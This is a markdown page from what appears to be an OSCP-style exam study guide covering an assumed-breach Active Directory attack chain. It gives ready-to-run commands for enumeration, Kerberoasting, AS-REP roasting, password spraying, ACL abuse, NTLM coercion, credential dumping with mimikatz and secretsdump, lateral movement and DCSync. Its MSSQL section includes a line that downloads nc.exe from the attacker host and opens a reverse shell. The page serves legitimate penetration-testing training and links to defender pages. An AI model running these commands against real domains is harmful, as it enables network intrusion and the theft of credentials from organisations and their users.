

# Active Directory { #active-directory }

<div class="dfir-meta" markdown>
**Exam weight:** 40 / 100 (10 + 10 + 20) · **Priority:** Highest · **Last updated:** 2026-11-03
</div>

!!! abstract "In one sentence"
    The AD set starts from a supplied domain user (assumed breach) and chains through two machines to the Domain Controller. Partial points count, but most passing write-ups clear all 40 — and the usual blocker is not a missing technique but a missed credential or a missed pivot.

## 1. Concept { #concept }

### The AD loop { #ad-loop }

Every AD set is the same loop, repeated until the DC falls:



A typical exam-style chain (yours will differ in the details):

| Step | From → to | Usual technique |
|---|---|---|
| 1 | Given user → MS01 (external) | WinRM / RDP login, then local privesc |
| 2 | MS01 SYSTEM → domain credential | mimikatz / secretsdump, files, history |
| 3 | Kali → internal subnet | ligolo-ng agent on MS01 |
| 4 | Domain cred → MS02 | Kerberoast / reuse / ACL abuse → WinRM / psexec / MSSQL |
| 5 | MS02 loot → Domain Admin or DCSync rights | Cached creds, service account, ACL path |
| 6 | → DC01 | DCSync → psexec / evil-winrm as Administrator |

!!! tip "The habit that saves the most time"
    **Every new credential gets tried everywhere** — every host, every protocol (SMB, WinRM, RDP, MSSQL), as a domain user *and* as a local account (`--local-auth`). Keep a running `creds.txt` and add to it the moment you find anything.

## 2. Main tools { #tools }

| Tool | Use it for | Runs from |
|---|---|---|
| **NetExec (`nxc`)** | Validate creds, find admin access (`Pwn3d!`), users, shares, policy, roasting, spraying, command exec | Kali |
| **Impacket** | `GetUserSPNs`, `GetNPUsers`, `secretsdump`, `psexec` / `wmiexec` / `smbexec`, `mssqlclient`, `getTGT`, `smbserver` | Kali |
| **evil-winrm** | Interactive PowerShell over WinRM (5985/5986), upload / download | Kali |
| **BloodHound CE** + **SharpHound** / **bloodhound-ce-python** | Map attack paths (sessions, admin rights, ACLs) | Collector on target / Kali → GUI on Kali |
| **Kerbrute** | User enumeration and spraying over Kerberos | Kali |
| **Rubeus** | Kerberoast, AS-REP roast, ask / pass tickets from Windows | Target |
| **mimikatz** | LSASS creds, SAM, LSA secrets, DCSync, pass-the-hash | Target (admin) |
| **PowerView** | LDAP enumeration in PowerShell (users, SPNs, ACLs) | Target |
| **hashcat / john** | Cracking roasted / captured hashes → [Password attacks](password-attacks.md) | Kali |

!!! danger "Exam rules that bite in the AD set"
    - **No spoofing / poisoning:** Responder in poisoning mode (LLMNR / NBT-NS / mDNS), **mitm6**, ARP / DNS spoofing (bettercap, arpspoof) — all banned. Use [coercion without spoofing](#coercion) instead.
    - **Metasploit on one target only, and no Metasploit pivoting** — so the AD chain is done with Impacket, NetExec, Rubeus, mimikatz, ligolo-ng. See [Metasploit limits](exam-format.md#metasploit).
    - **No AI / chatbots** for help while you work — your notes and public references only.
    - Full list → [Exam format › Restricted](exam-format.md#restricted).

## 3. Scenarios { #scenarios }

### 3.1 Assumed-breach start — map the credential { #assumed-breach-start }

**Situation:** The control panel gives you `eric.wallows : EricLikesRunning800` and the IP of MS01.

```bash
# names first — Kerberos needs them
nxc smb 192.168.120.0/24                         # discover names / domain from banners
echo "$DC dc01.$DOMAIN dc01 $DOMAIN" | sudo tee -a /etc/hosts
# optionally make the DC your resolver for Kerberos tools: add "nameserver $DC" to /etc/resolv.conf

# where does the credential work?
for p in smb winrm rdp mssql ldap; do nxc $p <MS01_IP> -u "$USER_" -p "$PASS"; done
```

**What to read:** `[+]` = valid; `(Pwn3d!)` on SMB / WinRM = admin / can execute. WinRM `[+]` without Pwn3d! on older NetExec still often means you can log in — try `evil-winrm`.

**Next:** log in (3.2), then on the host:

```powershell
whoami /all; hostname; ipconfig /all     # privileges, groups, second NIC?
net user /domain; net group "Domain Admins" /domain
```

Not admin → [Windows privesc](privesc-windows.md). Second NIC → [Pivoting](pivoting.md).

### 3.2 evil-winrm — interactive shell with creds or a hash { #evil-winrm }

```bash
evil-winrm -i <IP> -u "$USER_" -p "$PASS"
evil-winrm -i <IP> -u Administrator -H <NT_HASH>                  # pass-the-hash
evil-winrm -i <IP> -u "$USER_" -p "$PASS" -s ~/exam/tools/ps     # load local .ps1 scripts by name
```

```text
*Evil-WinRM* PS> upload /home/kali/exam/tools/winPEASx64.exe C:\Windows\Temp\wp.exe
*Evil-WinRM* PS> download C:\Windows\Temp\sam.save
```

**What to read:** the prompt appears → you're in. `WinRMAuthorizationError` → valid creds but not in *Remote Management Users* / admins on that host; try RDP / SMB / MSSQL.

### 3.3 NetExec — domain enumeration with a user { #netexec }

```bash
nxc smb $DC -u "$USER_" -p "$PASS" --pass-pol           # lockout threshold!
nxc smb $DC -u "$USER_" -p "$PASS" --users | tee loot/users.raw
nxc smb $DC -u "$USER_" -p "$PASS" --groups
nxc smb 10.10.120.0/24 -u "$USER_" -p "$PASS" --shares
nxc smb $DC -u "$USER_" -p "$PASS" -M spider_plus        # index every readable share
nxc ldap $DC -u "$USER_" -p "$PASS" --kerberoasting kerb.hash
nxc ldap $DC -u "$USER_" -p "$PASS" --asreproast asrep.hash
nxc ldap $DC -u "$USER_" -p "$PASS" -M get-desc-users    # passwords left in descriptions
nxc smb 10.10.120.0/24 -u "$USER_" -p "$PASS" --loggedon-users
```

**What to read:** user descriptions (`pwd: ...`), `SYSVOL` / `NETLOGON` scripts, non-default shares (`Backups`, `IT`, `Dev`), kerberoast / AS-REP output files not empty.

**Next:** build `users.txt` (`awk` the usernames out), crack any roast hashes, grep the spider output for configs.

### 3.4 BloodHound CE — find the attack path { #bloodhound }

**Situation:** You have a valid domain user. You want to know who can reach what.

=== "From Kali (bloodhound-ce-python)"

    ```bash
    # pip install bloodhound-ce   (CE-compatible fork of bloodhound-python)
    bloodhound-ce-python -u "$USER_" -p "$PASS" -d $DOMAIN -ns $DC -c All --zip
    ```

=== "From a domain host (SharpHound)"

    ```powershell
    .\SharpHound.exe -c All --zipfilename loot.zip
    # PowerShell version: Import-Module .\SharpHound.ps1; Invoke-BloodHound -c All
    ```

Start BloodHound CE on Kali (Docker, via `bloodhound-cli` or the project's compose file), log in at `http://localhost:8080`, and upload the ZIP.

**Queries, in this order:**

1. Search your user → **mark as Owned**.
2. *Outbound Object Control* on your user (GenericAll / GenericWrite / WriteDACL / WriteOwner / ForceChangePassword / AddMember).
3. Cypher / pre-built: *Kerberoastable users*, *AS-REP roastable users*.
4. *Shortest paths from Owned objects* and *Shortest paths to Domain Admins*.
5. For each computer: *Local Admin Rights* / *CanPSRemote* / *CanRDP* / *SQLAdmin* edges.

**What to read:** an edge from something you own to something you don't. Right-click the edge → **Help / Abuse** explains the attack.

!!! warning "Collector and GUI must match"
    BloodHound **CE** needs a CE collector (SharpHound v2+, `bloodhound-ce-python`); the legacy 4.x GUI needs the legacy collector. A mismatch imports nothing. Decide which you use before exam day and test it.

### 3.5 Kerberoasting — Impacket / Rubeus { #kerberoasting }

**Situation:** BloodHound or `nxc --kerberoasting` lists users with an SPN (`svc_sql`, `svc_web`).

=== "Kali — Impacket"

    ```bash
    impacket-GetUserSPNs "$DOMAIN/$USER_:$PASS" -dc-ip $DC                    # list
    impacket-GetUserSPNs "$DOMAIN/$USER_:$PASS" -dc-ip $DC -request -outputfile kerb.hash
    ```

=== "Windows — Rubeus"

    ```powershell
    .\Rubeus.exe kerberoast /outfile:kerb.hash /nowrap
    ```

```bash
hashcat -m 13100 kerb.hash /usr/share/wordlists/rockyou.txt      # $krb5tgs$23$
```

**What to read:** `$krb5tgs$23$*svc_sql$CORP.LOCAL$...`. `KRB_AP_ERR_SKEW` → clock skew: `sudo ntpdate $DC` (or `faketime`).

**Next:** cracked service account → spray it (`nxc smb/winrm/mssql`) — service accounts are often admin on the server they run on.

Full lab walkthrough → [Lab: Kerberoasting](labs/kerberoasting.md) · Defender view → [Kerberoasting](../../adversary/kerberoasting.md).

### 3.6 AS-REP roasting — Impacket / Rubeus { #asrep }

**Situation:** Users with *Do not require Kerberos pre-authentication* — works even **without** a password if you know the usernames.

```bash
impacket-GetNPUsers "$DOMAIN/" -usersfile users.txt -dc-ip $DC -no-pass -format hashcat -outputfile asrep.hash
impacket-GetNPUsers "$DOMAIN/$USER_:$PASS" -dc-ip $DC -request -format hashcat -outputfile asrep.hash
hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt
```

```powershell
.\Rubeus.exe asreproast /format:hashcat /outfile:asrep.hash /nowrap
```

Defender view → [AS-REP Roasting](../../adversary/asrep-roasting.md).

### 3.7 Password spraying — Kerbrute / NetExec { #spraying }

Read the policy, then one password at a time:

```bash
nxc smb $DC -u "$USER_" -p "$PASS" --pass-pol
kerbrute passwordspray -d $DOMAIN --dc $DC users.txt "$PASS"          # given password reused?
nxc smb $DC -u users.txt -p 'Spring2026!' --continue-on-success
```

Candidates: the given password, every cracked password, `Season+Year!`, `Company123!`, the username. Details and lockout math → [Password attacks › Spraying](password-attacks.md#spraying).

### 3.8 ACL abuse — what to do with a BloodHound edge { #acl-abuse }

| Edge (your user → target) | Abuse from Kali |
|---|---|
| **ForceChangePassword** on a user | `net rpc password 'target' 'NewPass123!' -U "$DOMAIN/$USER_%$PASS" -S $DC` |
| **GenericWrite / GenericAll** on a user | Targeted Kerberoast: set an SPN, roast, remove — `targetedKerberoast.py -d $DOMAIN -u "$USER_" -p "$PASS" --dc-ip $DC` |
| **GenericAll** on a user | Reset the password (as above) |
| **AddMember / GenericAll** on a group | `net rpc group addmem 'IT Admins' "$USER_" -U "$DOMAIN/$USER_%$PASS" -S $DC` |
| **WriteDACL** on the domain | Grant yourself DCSync rights (`impacket-dacledit -action write -rights DCSync ...`), then [DCSync](#domain-compromise) |
| **WriteOwner** | Take ownership (`impacket-owneredit`), then grant GenericAll |
| **ReadGMSAPassword / ReadLAPSPassword** | `nxc ldap $DC -u "$USER_" -p "$PASS" --gmsa` / `-M laps` |

From Windows the same actions exist in PowerView (`Set-DomainUserPassword`, `Add-DomainGroupMember`, `Set-DomainObject`).

**Next:** after a group change, get a fresh logon (new shell / new ticket) — group membership is read at logon time.

### 3.9 Coercion without spoofing — capturing NetNTLMv2 { #coercion }

**Situation:** You want a user's or service's NetNTLMv2 hash, but Responder-style poisoning is banned.

Run an SMB server you control and make the target **connect to it**:

```bash
impacket-smbserver share /tmp/share -smb2support       # prints captured NetNTLMv2 hashes
```

Ways to make the target connect:

- **MSSQL:** `EXEC master..xp_dirtree '\\<KALI>\share';` (from `impacket-mssqlclient`) → the SQL service account's hash.
- **Writable share someone browses:** drop a `.url` / `.lnk` / `.library-ms` whose icon path is `\\<KALI>\share\x.ico`.
- **Web app / LFI on Windows:** a path parameter pointing at `\\<KALI>\share\x`.

```bash
hashcat -m 5600 netntlmv2.txt /usr/share/wordlists/rockyou.txt
```

!!! danger "Exam rule"
    Listening for connections you *caused* is fine. **Poisoning** name resolution (LLMNR / NBT-NS / mDNS / DHCPv6) so victims connect to you by mistake is spoofing and banned. Relaying (ntlmrelayx) is a grey area tied to how the connection was triggered — check the current Exam Guide before relying on it. Defender view → [LLMNR / NTLM Relay](../../adversary/llmnr-ntlm-relay.md).

### 3.10 Lateral movement { #lateral-movement }

Pick the method by what you hold and which ports are open:

| You have | Port | Command | Lands as |
|---|---|---|---|
| Admin password / hash | 445 | `impacket-psexec "$DOMAIN/admin:Pass@<IP>"` or `-hashes :<NT>` | SYSTEM (noisy: creates a service) |
| Admin password / hash | 135 + 445 | `impacket-wmiexec "$DOMAIN/admin@<IP>" -hashes :<NT>` | The user (semi-interactive) |
| Admin password / hash | 445 | `impacket-smbexec ...` / `nxc smb <IP> ... -x 'whoami'` | SYSTEM |
| Remote Management Users / admin | 5985 | `evil-winrm -i <IP> -u user -H <NT>` | The user |
| RDP rights | 3389 | `xfreerdp3 /v:<IP> /u:user /p:'Pass' /d:$DOMAIN` | The user (GUI) |
| SQL login | 1433 | `impacket-mssqlclient "$DOMAIN/user:Pass@<IP>" -windows-auth` | SQL service account |
| Only Kerberos works / NTLM blocked | 88 | `impacket-getTGT "$DOMAIN/user" -hashes :<NT>` → `export KRB5CCNAME=user.ccache` → `impacket-psexec -k -no-pass "$DOMAIN/user@ms02.$DOMAIN"` | — |

**MSSQL → command execution:**

```text
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami /priv
SQL> xp_cmdshell powershell -c "iwr http://<KALI>/nc.exe -o C:\Windows\Temp\nc.exe; C:\Windows\Temp\nc.exe <KALI> 443 -e cmd"
```

The SQL service account usually has `SeImpersonatePrivilege` → [potato](privesc-windows.md#token-privileges).

**What to read:** `[*] Found writable share ADMIN$` → psexec works. `rpc_s_access_denied` → not admin; try WinRM / RDP / MSSQL with the same creds. With Kerberos, always use the **hostname**, not the IP.

Defender view → [Pass-the-Hash](../../adversary/pass-the-hash.md) · [PsExec / SMB](../../adversary/psexec-smb.md) · [WMI / WinRM](../../adversary/wmi-winrm.md) · [RDP](../../adversary/rdp.md).

### 3.11 Loot each machine — mimikatz / secretsdump { #looting }

As soon as you are admin / SYSTEM on a host — **before moving on** — collect credentials.

#### mimikatz (on the target) { #mimikatz }

```powershell
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::secrets" "lsadump::cache" "exit" > C:\Windows\Temp\mk.txt
```

**What to read:** `sekurlsa::logonpasswords` → `Username / Domain / NTLM` for every logged-on user (sometimes `Password` in clear text via wdigest or service accounts); `lsadump::secrets` → `_SC_<service>` = service account passwords in clear text; `lsadump::cache` → DCC2 hashes (`-m 2100`, slow); `lsadump::sam` → local Administrator NT hash.

#### secretsdump (from Kali) { #secretsdump }

```bash
impacket-secretsdump "$DOMAIN/admin:Pass@<IP>"                 # SAM + LSA secrets + cached creds remotely
impacket-secretsdump -hashes :<NT> "./Administrator@<IP>"      # local admin hash
impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL
```

#### By hand { #manual-loot }

```powershell
cmdkey /list
type C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Get-ChildItem C:\Users -Include *.txt,*.ps1,*.xml,*.config,*.kdbx -Recurse -ErrorAction SilentlyContinue
```

**Next:** add every hash / password to `creds.txt` and go back to [spraying](#spraying) across the internal subnet.

Defender view → [LSASS Dumping](../../adversary/lsass-dumping.md) · [SAM / NTDS Extraction](../../adversary/sam-ntds-extraction.md).

### 3.12 Domain compromise { #domain-compromise }

**Situation:** You hold a Domain Admin credential, or a user with *Replicating Directory Changes (All)* (BloodHound edge `DCSync`).

```bash
# DCSync from Kali
impacket-secretsdump "$DOMAIN/da_user:Pass@dc01.$DOMAIN" -just-dc-user Administrator
impacket-secretsdump "$DOMAIN/da_user:Pass@dc01.$DOMAIN" -just-dc-ntlm      # every user
# shell on the DC
impacket-psexec -hashes :<ADMIN_NT> "$DOMAIN/Administrator@dc01.$DOMAIN"
evil-winrm -i $DC -u Administrator -H <ADMIN_NT>
```

```powershell
# DCSync from a Windows host as the privileged user
.\mimikatz.exe "lsadump::dcsync /domain:corp.local /user:Administrator" "exit"
```

**What to read:** `Administrator:500:aad3b...:<NT>:::`. **Next:** shell on the DC, `type C:\Users\Administrator\Desktop\proof.txt`, `whoami`, `ipconfig` → screenshot.

Other domain-level paths to study (each has a defender page): [DCSync](../../adversary/dcsync.md) · [Golden & Silver Tickets](../../adversary/golden-silver-tickets.md) · [AD CS Abuse](../../adversary/adcs-abuse.md) · delegation (constrained / unconstrained / RBCD) · writable GPOs.

## 4. Common mistakes { #pitfalls }

- **No AD methodology** — the #1 first-attempt failure in write-ups. Drill the loop until it is automatic.
- **Not trying creds everywhere** — especially `--local-auth` and MSSQL.
- **Missing `/etc/hosts` or clock sync** → Kerberos tools fail with `KDC_ERR_S_PRINCIPAL_UNKNOWN` / `KRB_AP_ERR_SKEW`.
- **Spraying without reading the lockout policy.**
- **Moving on without looting** — the next credential is usually on the host you just owned.
- **Pivoting stall** — owning MS01 but never routing to MS02's subnet → [Pivoting](pivoting.md).
- **BloodHound collector / GUI mismatch** → empty graph.
- **Doing the AD set tired.** It is 40 chained points — take it while fresh.

## 5. Exam tips { #exam-tips }

- Partial points count: MS01 = 10, MS02 = 10, DC = 20. Submit each flag as soon as you have it.
- Keep one notes page per host with: how you got in, creds found there, screenshots.
- Re-run BloodHound collection after you own a new user — new edges appear.
- If the set stalls for ~2 hours with no new information, switch to a standalone and come back fresh ([Exam format › Scoring strategy](exam-format.md#scoring-strategy)).

## Related pages

- [Exam workflow](exam-workflow.md) · [Password attacks](password-attacks.md) · [Pivoting](pivoting.md) · [Windows privesc](privesc-windows.md)
- Defender view: [Kerberoasting](../../adversary/kerberoasting.md) · [AS-REP Roasting](../../adversary/asrep-roasting.md) · [Pass-the-Hash](../../adversary/pass-the-hash.md) · [DCSync](../../adversary/dcsync.md) · [Golden & Silver Tickets](../../adversary/golden-silver-tickets.md) · [AD CS Abuse](../../adversary/adcs-abuse.md) · [LLMNR / NTLM Relay](../../adversary/llmnr-ntlm-relay.md) · [LSASS Dumping](../../adversary/lsass-dumping.md) · [SAM / NTDS Extraction](../../adversary/sam-ntds-extraction.md) · [PsExec / SMB](../../adversary/psexec-smb.md) · [WMI / WinRM](../../adversary/wmi-winrm.md) · [RDP](../../adversary/rdp.md)
- Windows artefacts: [Event logs](../../windows/event-logs.md) · [Windows event IDs](../../basics/windows-event-ids.md)
- [Red Team: Post-Exploitation](../../redteam/post-exploitation/index.md) · [Lab: Kerberoasting](labs/kerberoasting.md)

## References

- [OffSec — OSCP Exam with AD Preparation](https://help.offsec.com/hc/en-us/articles/4547917816468-Offensive-Security-OSCP-Exam-with-AD-Preparation)
- [BloodHound CE documentation](https://bloodhound.specterops.io/)
- [Impacket](https://github.com/fortra/impacket) · [NetExec wiki](https://www.netexec.wiki/)
- [The Hacker Recipes — AD](https://www.thehacker.recipes/)
